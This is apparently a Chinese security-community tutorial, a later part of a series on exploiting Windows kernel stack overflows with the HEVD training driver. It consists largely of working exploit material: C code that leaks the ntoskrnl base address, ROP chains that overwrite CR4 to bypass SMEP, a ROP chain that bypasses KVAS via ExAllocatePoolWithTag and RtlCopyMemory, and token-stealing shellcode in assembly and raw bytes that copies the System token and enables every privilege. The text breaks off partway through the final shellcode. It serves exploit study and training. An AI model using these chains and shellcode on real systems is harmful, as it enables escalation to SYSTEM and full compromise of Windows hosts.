


# 从零探索现代 windows 内核栈溢出 - 以 HEVD 练习为例（下） - 先知社区

从零探索现代 windows 内核栈溢出 - 以 HEVD 练习为例（下）

- - -

中篇的内容一路走来实属不易，本附录对第二章的以下几个遗留问题做出说明

-   user 编程寻找 ROPGadget
-   shellcode 编写
-   Token 提权
-   KVAS

## user 编程寻找 ROPGadget

ROP 全称加返回导向性编程，比如这一章用到的 Gadget

```plain
pop rcx
ret

mov cr4, rcx
ret
```

关于`ret`汇编本质上就是从栈帧中取出值，然后将`ip`寄存器设置为该值，等价于`pop ip`，这样就能完成函数调用的返回等等。

本章中当我们发生栈溢出时，就会把`ret`的位置设置为第一段 gadget 的位置

-   `pop rcx`就会将此时栈顶的值`0x00000000002506f8`存入`rcx`寄存器，然后`ret`又从栈顶取出地址`mov_rc4_rcx_ret`，然后`rip`寄存器就跳转执行了
-   `mov rc4, rcx`将`rcx`值存入`rc4`中然后`ret`又将栈顶的值`shellcode_addr`设置为`rip`寄存器的值后返回

细心一点就会发现本章截图中的地址不一样，因为内核加载时的内存虚拟地址也是随机化的，不过寻址方式依旧是`基地址`+`偏移`

这就引申出函数第一段代码：找到内核的基地址

### A.找到内核基地址

通过`NtQuerySystemInformation`这个“半隐藏”函数实现的

MSDN：[https://learn.microsoft.com/zh-cn/windows/win32/api/winternl/nf-winternl-ntquerysysteminformation](https://learn.microsoft.com/zh-cn/windows/win32/api/winternl/nf-winternl-ntquerysysteminformation)

```plain
__kernel_entry NTSTATUS NtQuerySystemInformation(
  [in]            SYSTEM_INFORMATION_CLASS SystemInformationClass,
  [in, out]       PVOID                    SystemInformation,
  [in]            ULONG                    SystemInformationLength,
  [out, optional] PULONG                   ReturnLength
);
```

> ```plain
> [in, out] SystemInformation
> ```
> 
> 指向接收请求信息的缓冲区的指针。此信息的大小和结构因 *SystemInformationClass* 参数的值而异：

很可惜，关于`SystemInformationClass`微软并没有公开它的设计，网上有很多关于此的资料

`SYSTEM_INFORMATION_CLASS`：[https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/ntexapi/system\_information\_class.htm](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/ntexapi/system_information_class.htm)

他是一个枚举，其中`0xB`就代表着要查询的是`SystemModuleInformation`

`SYSTEM_MODULE`：[http://undocumented.ntinternals.net/index.html?page=UserMode%2FStructures%2FSYSTEM\_MODULE.html](http://undocumented.ntinternals.net/index.html?page=UserMode%2FStructures%2FSYSTEM_MODULE.html)

```plain
typedef struct _SYSTEM_MODULE {
  ULONG                Reserved1;
  ULONG                Reserved2;
  PVOID                ImageBaseAddress;
  ULONG                ImageSize;
  ULONG                Flags;
  WORD                 Id;
  WORD                 Rank;
  WORD                 w018;
  WORD                 NameOffset;
  BYTE                 Name[MAXIMUM_FILENAME_LENGTH];
} SYSTEM_MODULE, *PSYSTEM_MODULE;
```

`SystemInformation`就是由`SYSTEM_MODULE`数组作为成员的结构体，这个没有官方文档，也是通过逆向得到的

```plain
typedef struct SYSTEM_MODULE_INFORMATION {
    ULONG                ModulesCount;
    SYSTEM_MODULE        Modules[1];
} SYSTEM_MODULE_INFORMATION, * PSYSTEM_MODULE_INFORMATION;
```

关于查询函数的定义：

```plain
unsigned long long ulGetKernelBase(PCHAR ModuleName);
```

1.  首先从`ntdll`导入函数
2.  然后初始化变量
3.  查询后打印并返回，如果没有查到就返回 0

```plain
unsigned long long ulGetKernelBase(PCHAR ModuleName) {
    PVOID kernelImageBase = NULL;
    PCHAR kernelImage = NULL;


    //import function `NtQuerySystemInformation`
    HMODULE ntdll = GetModuleHandle(TEXT("ntdll"));
    PNtQuerySystemInformation NtQuerySystemInformation = (PNtQuerySystemInformation)GetProcAddress(ntdll, "NtQuerySystemInformation");
    if (NtQuerySystemInformation == NULL) {
        printf("[!] GetProcAddress() failed.\n");
        return 0;
    }

    //init length
    ULONG len = 0;
    NtQuerySystemInformation(SystemModuleInformation, NULL, 0, &len);
    //init module infomations
    PSYSTEM_MODULE_INFORMATION pModuleInfo = (PSYSTEM_MODULE_INFORMATION)GlobalAlloc(GMEM_ZEROINIT, len);
    if (pModuleInfo == NULL) {
        printf("[!] [ulGetKernelBase]  Could not allocate memory for module info.\n");
        return 0;
    }

    //starting quering
    NTSTATUS status = NtQuerySystemInformation(SystemModuleInformation, pModuleInfo, len, &len);

    if (status != (NTSTATUS)0x0) {
        printf("[!] [ulGetKernelBase] NtQuerySystemInformation failed with error code 0x%X\n", status);
        return 0;
    }
    for (unsigned int i = 0; i < pModuleInfo->ModulesCount; i++) {
        kernelImage = (PCHAR)pModuleInfo->Modules[i].Name;
        if (strstr(kernelImage, ModuleName)) {
            kernelImageBase = pModuleInfo->Modules[i].ImageBaseAddress;
            printf("[*] [ulGetKernelBase]  Mod name %s ", kernelImage);
#ifdef _WIN64
            printf(" Base Addr 0x%llx\r\n", kernelImageBase);
#else
            printf(" Base Addr 0x%X\r\n", kernelImageBase);
#endif
            return (unsigned long long)kernelImageBase;
        }
    }
    return 0;
}
```

### B. 找到对应汇编

可以使用 CTF 常用工具`ROPGadget`，他支持`PE`格式（因为用的 Capstone 反汇编引擎）

```plain
ROPgadget --binary ./HEVD.sys --only "pop|ret"
```

试试`ntoskrl.exe`的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122131934-d414ea16-b8e5-1.png)

```plain
0x000000014039eb47 : mov cr4, rcx ; ret
```

得到基地址是`0x39eb47`，另外一个 gadget 同理

重写修改下 EXP

```plain
unsigned long long base = ulGetKernelBase((PCHAR)"ntoskrnl.exe");
    unsigned long long pop_rcx = base+ 0x20C64C;
    unsigned long long mov_cr4_rcx = base+ 0x39eb47;

    printf("[*] Start set ROP\n");
    *(unsigned long long*)(stackspace + 0x818) = (unsigned long long)pop_rcx;
    //set RCX = currentRC4
    *(unsigned long long*)(stackspace + 0x820) = (unsigned long long)0x00000000002506f8;
    *(unsigned long long*)(stackspace + 0x828) = (unsigned long long)mov_cr4_rcx;
    *(unsigned long long*)(stackspace + 0x830) = (unsigned long long)shellcode_addr;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122131951-dea23cd6-b8e5-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132108-0c80a386-b8e6-1.png)

一些常见的 gadget 字节序列

```plain
{ "RET" , { 0xC3 }},
    { "POP_RAX", { 0x58, 0xC3 }},
    { "POP_RCX", { 0x59, 0xc3 }},
    { "MOV_CR4_RCX", { 0x0f, 0x22, 0xe1, 0xc3 }},

    { "NOP", { 0x4d, 0xc3 }},
    { "POP_RAX_POP_RCX", { 0x58, 0x59, 0xc3 }},
    { "MOV_RCX_PTRRAX", { 0x48, 0x89, 0x08, 0xc3 }},
    { "MOV_RAX_PTRRCX", { 0x89, 0x01, 0xc3 }},
    { "XOR_RAX_RAX", { 0x48, 0x33, 0xc0, 0xc3 }},
    { "XOR_ESI_ESI", { 0x31, 0xf6, 0xc3 }},
```

如果想直接从二进制读取（这样更快）可以使用：[https://github.com/xct/windows-kernel-exploits](https://github.com/xct/windows-kernel-exploits) 提供的思路去找

## shellcode 编写

### A. 手动进行 Token 提权

第二章中使用的是他人提供的 shellcode，这里尝试自己写汇编

注意，这里我们已经进入内核了，所以做的事情和 user 级别不一样

同`KRPOCESS`不同的是`EPROCESS`描述了程序运行的相关环境，例如：对应的`KPROCESS`指针、程序的权限等

在 windbg 中使用，可以列举所有的进程的相关信息

```plain
!process 0 0 <process_name>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132236-40d9a178-b8e6-1.png)

使用下面的命令来查看对应的 EPROCESS 结构体，这里查看`System`进程的

```plain
dt nt!_EPROCESS <Process address>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132246-46a60ea2-b8e6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132256-4cfb66a8-b8e6-1.png)

Token 是一个`_EX_FAST_REF`类型的 Union 值

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132305-520c95fe-b8e6-1.png)

`RefCnt`记录了 Token 引用的数目，是数据的低 4 位 (64 位中，32 位是 3 位)

将当前进程的除`RefCnt`以外的其他 bit 位设置为和 System 的一致就行了，

这里 `Value`与掩码`-0xd`（RefCount）进行`&`运算就能得到真实的 Token 值

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132315-57fc097c-b8e6-1.png)

现在将计算出的 Token 值复制给 cmd.exe（**这是一个新的 Token**）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132328-5f927e1e-b8e6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132340-6736538e-b8e6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132352-6e679406-b8e6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132403-74737a0e-b8e6-1.png)

### B. 进行 Shellcode 编写

在刚才的`EPROCESS`中，有一段记录的是程序的链表：`ActiveProcessLinks`，而且 windows 会生成一段独特的标识来标记每一个程序：`UniqueProcessId`，在这段 **双向** 链表上每段程序都可以被找到，因为可以向前和向后查找，**一般 System 位于链表开头，所以沿着 Flink 查找**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132438-8962ffc0-b8e6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132446-8e0e77f2-b8e6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132453-9275c30e-b8e6-1.png)

1.  通过`EPROCESS`获得自身`ActiveProcessLinks`，同时向前/向后查找
    
    [这篇文章](https://connormcgarr.github.io/x64-Kernel-Shellcode-Revisited-and-SMEP-Bypass/)中通过模仿`PsGetCurrentProcess`，`gs:[188h]`指向的是一个`_KTHREAD`，函数的汇编会将这个地址`add addr,0xb8`，就得到了当前进程的`_EPROCESS`，这也是许多 shellcode 的技巧
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20240122132504-9931cb52-b8e6-1.png)
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20240122132516-a0613f5c-b8e6-1.png)
    
    `ffff9984d3d97080`就为一个 当前进程的`KiInitialThread`
    
    `+0xB8`指向的是当前进程的`EPROCESS`了
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20240122132636-d00cd00e-b8e6-1.png)
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20240122132646-d609cb10-b8e6-1.png)
    
2.  比较当前`ActiveProcessLinks`值`-8`的内存地址是否为`UniqueProcessId`
    
3.  否：更换当前结构体为下一个
    
4.  是：从`ActiveProcessLinks-0x70`的位置得到`Token`地址
    
5.  解析 Token，赋值给**当前进程**（Windows 会自动解析为 exp 的程序（从页表映射等来看确实应该如此））
    

仔细逆向会发现

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132529-a7f5d840-b8e6-1.png)

那么在没有任何栈变动的情况下`add rsp, 0x28`就能恢复栈，但是我们只有了 ROP，ROP 链中存在两个`ret`和一个`pop`，抬栈了 0x18，所以在 shellcode 中只需要`add rsp, 0x10`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132547-b2a92972-b8e6-1.png)

同时 HEVD 的`NT_STATUS`使用`RAX`检测处理是否成功，所以要`xor rax,rax`

```plain
[Bits 64]

_start:    
    xor rax, rax
    mov rax, gs:[rax+0x188]
    mov rax, [rax+0xb8]     ;rax = 当前EPROCESS
    mov r9, rax             ;r9  = 当前EPROCESS
    mov rax, [rax+0x448]    ;rax = 当前EPROCESS.List
    mov rax, [rax]          ;rax = 当前EPROCESS.List->flink

__loop:
    mov rdx, [rax-0x8]      ;rdx = 上一个进程的 upid
    mov r8, rax             ;r8  = 当前 EPROCESS.List->flink
    mov rax, [rax]          ;rax = 上一个进程的.List
    cmp rdx, 0x4
    jnz __loop

    ;rdx = 4
    ;r8 = System EPROCESS
    mov rdx, [r8+0x70]      ;rdx = system token
    and rdx, -0x8           ;消除低4位
    mov rcx, [r9+0x4b8]     ;当前EPROCESS的token
    and rcx, 0x7            ;
    add rdx, rcx            ;rdx = 系统token高位+当前token低4位
    mov [r9+0x4b8], rdx     ;将合成的token复制给当前

    add rsp, 0x10
    retn
```

使用 nasm

```plain
& "C:\Users\xxxx\AppData\Local\bin\NASM\nasm.exe" -f win64 .\TokenSteal.asm -o .\TokenSteal.bin
```

编译出的文件位 COFF 格式，要提取出来，这里我用的是`CFF Explore`的快速反汇编定位到代码然后用`HxD`提取的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132706-e1d3abd2-b8e6-1.png)

```plain
unsigned char cmd[84] = {
    0x48, 0x31, 0xC0, 0x65, 0x48, 0x8B, 0x80, 0x88, 0x01, 0x00, 0x00, 0x48,
    0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, 0x49, 0x89, 0xC1, 0x48, 0x8B, 0x80,
    0x48, 0x04, 0x00, 0x00, 0x48, 0x8B, 0x00, 0x48, 0x8B, 0x50, 0xF8, 0x49,
    0x89, 0xC0, 0x48, 0x8B, 0x00, 0x48, 0x83, 0xFA, 0x04, 0x75, 0xF0, 0x49,
    0x8B, 0x50, 0x70, 0x48, 0x83, 0xE2, 0xF8, 0x49, 0x8B, 0x89, 0xB8, 0x04,
    0x00, 0x00, 0x48, 0x83, 0xE1, 0x07, 0x48, 0x01, 0xCA, 0x49, 0x89, 0x91,
    0xB8, 0x04, 0x00, 0x00, 0x48, 0x31, 0xC0, 0x48, 0x83, 0xC4, 0x10, 0xC3
};
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132720-e9df8896-b8e6-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132732-f1406cfe-b8e6-1.png)

### C. 分析上一篇的 shellcode

```plain
BYTE cmd[256] = {
    0x48, 0x31, 0xc0, 0x65, 0x48, 0x8b, 0x80, 0x88, 0x01, 0x00,
    0x00, 0x48, 0x8b, 0x80, 0xb8, 0x00, 0x00, 0x00, 0x49, 0x89,
    0xc1, 0x48, 0x8b, 0x80, 0x48, 0x04, 0x00, 0x00, 0x48, 0x8b,
    0x00, 0x48, 0x8b, 0x50, 0xf8, 0x49, 0x89, 0xc0, 0x48, 0x8b,
    0x00, 0x48, 0x83, 0xfa, 0x04, 0x75, 0xf0, 0x49, 0x8b, 0x50,
    0x70, 0x48, 0x83, 0xe2, 0xf8, 0x49, 0x8b, 0x89, 0xb8, 0x04,
    0x00, 0x00, 0x48, 0x83, 0xe1, 0x07, 0x48, 0x01, 0xca, 0x49,
    0x89, 0x91, 0xb8, 0x04, 0x00, 0x00, 0x65, 0x48, 0x8b, 0x04,
    0x25, 0x88, 0x01, 0x00, 0x00, 0x66, 0x8b, 0x88, 0xe4, 0x01,
    0x00, 0x00, 0x66, 0xff, 0xc1, 0x66, 0x89, 0x88, 0xe4, 0x01,
    0x00, 0x00, 0x48, 0x8b, 0x90, 0x90, 0x00, 0x00, 0x00, 0x48,
    0x8b, 0x8a, 0x68, 0x01, 0x00, 0x00, 0x4c, 0x8b, 0x9a, 0x78,
    0x01, 0x00, 0x00, 0x48, 0x8b, 0xa2, 0x80, 0x01, 0x00, 0x00,
    0x48, 0x8b, 0xaa, 0x58, 0x01, 0x00, 0x00, 0x31, 0xc0, 0x0f,
    0x01, 0xf8, 0x48, 0x0f, 0x07, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff
};
```

写入一个二进制文档，用 ida 逆向

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132744-f8362120-b8e6-1.png)

发现原理一致，最后对栈的恢复不同

已知`gs:[0x188]`指向一个`_KTHREAD`结构体

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132800-020c661e-b8e7-1.png)

根据 windbg 的调试结果知道

```plain
mov cx, [rax+0x1e4]     ;+0x1e4 KernelApcDisable : 0n-1
    inc cx                  ;
    mov [rax+0x1e4], cx     ;更新 KernelApcDisable 为 0
    mov rdx, [rax+0x90]     ;+0x090 [TrapFrame]: 0xfffff88e`1d2edb00 
                            ;_KTRAP_FRAME
                            ;---下面为_KTRAP_FRAME
    mov rcx, [rdx+0x168]    ;[+0x168] Rip
    mov r11, [rdx+0x178]    ;[+0x178] EFlags
    mov rsp, [rdx+0x180]    ;[+0x180] Rsp
    mov rbp, [rdx+0x158]    ;[+0x158] Rbp
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122132817-0bffb6c6-b8e7-1.png)

可能还是有点绕，反汇编一下`TrapFrame`的 RIP

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124144830-957cc288-ba84-1.png)

相当于通过`TrapFrame`，替换了 exp 中的`DeviceIoControl`（模仿正常执行），并让他正常返回

接着重定位 GS 寄存器，使用 sysret 返回，为了对齐，有的汇编是这样的写的

```plain
o64 sysret  ; nasm shit
```

### D. 开启 Token 所有权限 \[优化 shellcode\]

即使我们已经成功生成了令牌，但是功能依旧是不全的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124144841-9c35a982-ba84-1.png)

被禁用的功能依旧有很多

#### I. 开启当前权限为启用

重新打开一个普通用户的`cmd.exe`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124144856-a507aef2-ba84-1.png)

用 A 部分的方法找到该进程

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124144912-aee9ab1e-ba84-1.png)

查看 token 格式，对照一下 SID。（注意低位要为 0）

```plain
!token <Token 数值，但是个位数为 0>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124144923-b505efee-ba84-1.png)

```plain
dt !_sep_token_privileges 0xffffb106`ecc96060+0x40
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124144942-c0de71a6-ba84-1.png)

将 Enabled 值设置为 Present 值

```plain
eq 0xffffb106`ecc96060+0x40+8 0x00000006`02880000
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124144932-baba0c9a-ba84-1.png)

查看权限

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124144952-c6c42570-ba84-1.png)

#### II. 获得所有权限并启用

用 A 部分的方法得到 System 的 Token

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124145003-cd4aadd8-ba84-1.png)

再得到 SystemToken 的 Present 值

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124145014-d3d03182-ba84-1.png)

设置当前 Token 的 Present 和 Enabled 为该值

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124145023-d94fb88a-ba84-1.png)

查看权限

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124145038-e1cb8796-ba84-1.png)

#### III.重新编写 shellcode

```plain
[Bits 64]

_start:    
    xor rax, rax
    mov rax, gs:[rax + 0x188]
    mov rax, [rax + 0xb8]     ;rax = 当前EPROCESS
    mov r9, rax               ;r9  = 当前EPROCESS
    mov rax, [rax + 0x448]    ;rax = 当前EPROCESS.List
    mov rax, [rax]            ;rax = 当前EPROCESS.List->flink

__loop:
    mov rdx, [rax - 0x8]      ;rdx = 上一个进程的 upid
    mov r8, rax               ;r8  = 当前 EPROCESS.List->flink
    mov rax, [rax]            ;rax = 上一个进程的.List
    cmp rdx, 0x4
    jnz __loop

    ;rdx = 4
    ;r8 = System EPROCESS
    mov rdx, [r8+0x70]      ;rdx = system token
    and rdx, -0x8           ;消除低4位
    mov rcx, [r9+0x4b8]     ;当前EPROCESS的token
    and rcx, 0x7            ;
    add rdx, rcx            ;rdx = 系统token高位+当前token低4位
    mov [r9+0x4b8], rdx     ;将合成的token复制给当前

    ;Enable ALL
    mov rdx, [r8 + 0x70]      ;rdx = system token
    and rdx, 0xFFFFFFFFFFFFFFF0           ;system token: 消除低8位，便于解析Token
    mov rbx, [rdx + 0x40]     ;rbx = System token的Present
    mov rcx, [r9 + 0x4b8]     ;rcx = 新的EPROCESS的token
    and rcx, 0xFFFFFFFFFFFFFFF0           ;new current token: 消除低8位，便于解析Token
    mov [rcx + 0x40], rbx
    mov [rcx + 0x48], rbx

    xor rax, rax
    add rsp, 0x10
    retn
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124145051-e9724dea-ba84-1.png)

## KVAS

### A. 简介

KVAS 全称是 Kernel Virtual Address Shadow，它的出现与 MeltDown（CVE-2017-5754）和 TotalMeltDown（CVE-2018-1038）有关。

我的描述不一定准确，大致上来说这两个漏洞利用了 CPU 的乱序执行技术，即 CPU 在执行时不一定会按照流程执行。当我们访问一个不能被用户模式访问的内存页时，CPU 会执行该语句然后将其缓存到内存中，等到发现不能访问后返回错误，但是该数据依旧存在于缓存当中。利用这种思路就可以完全读取内核中的数据，实现权限提升等。

微软为了缓解该漏洞，从用户页表中隔离出内核页表，让用户态访问到的内核页表也是经过映射的，并且会将用户页表自动标记为 NX，让我们的 shellcode 无法执行

### B. Bypass

虽然用户页表为不可执行，**但是内核页表仍然可执行**，只不过会延长我们 ROP 链的长度

需要用到的函数是：`ExAllocatePoolWithTag`和`RtlCopyMemory`

-   `ExAllocatePoolWithTag`：用于在内核中开辟一块地址
-   `RtlCopyMemory`：复制内存到内核开辟的内存池

```plain
LPVOID space = ExAllocatePoolWithTag(0, 0x100, 0xDEAD);
//NonPagedPoolExecute = 0
//空间大小：0x100
RtlCopyMemory(space, shellcode_addr, 0x100);
```

MSDN 中说明该两个函数在内核中均位于`NtosKrnl.exe`里，可以使用 CFF Explorer 查看导出表找到函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124145124-fd84006c-ba84-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124145138-05765ffe-ba85-1.png)

需要说明的一点是`ExAllocatePoolWithTag`有一个很恶心的地方就是

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124145223-207dfe56-ba85-1.png)

这三个 mov 会打乱我们精心设计的 ROP 链，而且后面根本没有使用到他，所以要直接进入`push rdi`的位置

`RtlCopyMemory`其实是一个宏

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124145317-4102794a-ba85-1.png)

```plain
unsigned long long base = ulGetKernelBase((PCHAR)"ntoskrnl.exe");
    unsigned long long ulExAllocatePoolWithTag = base + 0x9B203F;
    unsigned long long ulRtlCopyMemory = base + 0x40BEC0;
```

根据微软的函数调用规则，传参顺序是`rcx`，`rdx`，`r8`，返回地参数在`rax`中

那么一个理想的 ROP 布局

```plain
pop rcx rdx r8 ret
0
0x100
0xDEAD
ExAllocatePoolWithTag
---------------------------
pop rcx rdx r8 ret
0   ;暂时
shellcode_addr
0x100;
mov rcx, rax ret    ;此时 rcx = ExAllocatePoolWithTag 返回地内存地址
RtlCopyMemory
---------------------------
jmp rax
```

就这些 gadget 中的 pop 会消除`rsp+0x28`的驱动的`Handle`函数返回地址，所以首先是抬栈，如`sub rsp, 0x100`，在`jmp rax`之前多次调用`ret`来抬升`rsp`的值，最终回到`shellcode`调整为适用的`rsp`值。

**实际情况中也不会有恰好的 gadget 用**

实际上能用的`mov rcx, rax`可以通过以下方式实现

```plain
0x00000001408fa783 : push rax ; push rbx ; ret
0x00000001408fa77b : push rax ; push rdi ; ret
0x000000014020262C : pop rdi ; ret
```

这样就能让 rcx=rax 了，布局后栈的情况

```plain
ulExAllocatePoolWithTag
pop_rdi
pop_rcx
push_rax_rdi
```

1.  `pop rdi`：`RDI` =`pop rcx地址`，出栈一个，`rsp`指向`push_rax_rdi`，然后`ret`跳转到该地址
2.  `push rax`：将申请的内核内存地址放到了栈上，`rsp`指向值就为该内存的地址
3.  `push rdi; ret`：等效于`jmp rdi`，于是`ret`到了`pop rcx`
4.  `pop rcx`：此时的栈顶为 2 中入栈的`rax`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124145330-485857b4-ba85-1.png)

成功让`RCX=RAX`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124145339-4e2ab060-ba85-1.png)

这里暂时设计 payload

```plain
//typedef unsigned long long funcaddr;

    *(funcaddr*)(stackspace + 0x818) = (funcaddr)pop_rcx;
    *(funcaddr*)(stackspace + 0x818 + 8) = (funcaddr)0;
    *(funcaddr*)(stackspace + 0x818 + 0x10) = (funcaddr)pop_rdx;
    *(funcaddr*)(stackspace + 0x818 + 0x18) = (funcaddr)0x100;
    *(funcaddr*)(stackspace + 0x818 + 0x20) = (funcaddr)pop_r8;
    *(funcaddr*)(stackspace + 0x818 + 0x28) = (funcaddr)0xDEAD;
    *(funcaddr*)(stackspace + 0x818 + 0x30) = (funcaddr)ulExAllocatePoolWithTag;

    *(funcaddr*)(stackspace + 0x818 + 0x38) = (funcaddr)pop_rdi;    //rsp = 0
    *(funcaddr*)(stackspace + 0x818 + 0x40) = (funcaddr)pop_rcx;    //rdi = rcx --- been force to zero
    *(funcaddr*)(stackspace + 0x818 + 0x48) = (funcaddr)push_rax_rdi;//ret rdi: pop_rcx value changed

    *(funcaddr*)(stackspace + 0x818 + 0x50) = (funcaddr)pop_rdx;        //此处被低位被清零
    *(funcaddr*)(stackspace + 0x818 + 0x58) = (funcaddr)shellcode_addr; 

    *(funcaddr*)(stackspace + 0x818 + 0x70) = (funcaddr)pop_r8;
    *(funcaddr*)(stackspace + 0x818 + 0x78) = (funcaddr)sizeof(cmd);
    *(funcaddr*)(stackspace + 0x818 + 0x80) = (funcaddr)ulRtlCopyMemory;
    *(funcaddr*)(stackspace + 0x818 + 0x88) = (funcaddr)jmp_rax;
```

但是进行`ExAllocatePoolWithTag`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124145353-564bfe5c-ba85-1.png)

打断了 ROP 链，让`rsp+68`的位置的低 32 位清零了，这让我们需要调整这段 rop 链

```plain
*(funcaddr*)(stackspace + 0x818 + 0x50) = (funcaddr)pop_rdx;        //此处被低位被清零
    *(funcaddr*)(stackspace + 0x818 + 0x58) = (funcaddr)shellcode_addr; 
    *(funcaddr*)(stackspace + 0x818 + 0x60) = (funcaddr)pop_rdx;        //恢复 rdx
    *(funcaddr*)(stackspace + 0x818 + 0x68) = (funcaddr)shellcode_addr;

    *(funcaddr*)(stackspace + 0x818 + 0x70) = (funcaddr)pop_r8;
    *(funcaddr*)(stackspace + 0x818 + 0x78) = (funcaddr)sizeof(cmd);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124145406-5dfa36d2-ba85-1.png)

在设置`CR4.SMEP`的情况下，依靠内核分配的内存，成功运行了 shellcode，ROP 链进行了多次调用，让最后 shellcode 中的`rsp`值不好估计，并且栈的情况可能随着函数的调用将原有的值抹去，**这里先把 shellcode 换成从 TrapFrame 返回的**

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124145419-65739dea-ba85-1.png)

### C. 优化 shellcode

所以这段 shellcode 参考 shellcode 编写的 C、D 部分，加上了所有功能 Enabled 的 shellcode 片段

```plain
[Bits 64]

_start:    
    xor rax, rax
    mov rax, gs:[rax + 0x188]
    mov rax, [rax + 0xb8]     ;rax = 当前EPROCESS
    mov r9, rax               ;r9  = 当前EPROCESS
    mov rax, [rax + 0x448]    ;rax = 当前EPROCESS.List
    mov rax, [rax]            ;rax = 当前EPROCESS.List->flink

__loop:
    mov rdx, [rax - 0x8]      ;rdx = 上一个进程的 upid
    mov r8, rax               ;r8  = 当前 EPROCESS.List->flink
    mov rax, [rax]            ;rax = 上一个进程的.List
    cmp rdx, 0x4
    jnz __loop

    ;rdx = 4
    ;r8 = System EPROCESS

    mov rdx, [r8+0x70]      ;rdx = system token
    and rdx, -0x8           ;消除低4位
    mov rcx, [r9+0x4b8]     ;当前EPROCESS的token
    and rcx, 0x7            ;
    add rdx, rcx            ;rdx = 系统token高位+当前token低4位
    mov [r9+0x4b8], rdx     ;将合成的token复制给当前

    ;Enable ALL
    mov rdx, [r8 + 0x70]      ;rdx = system token
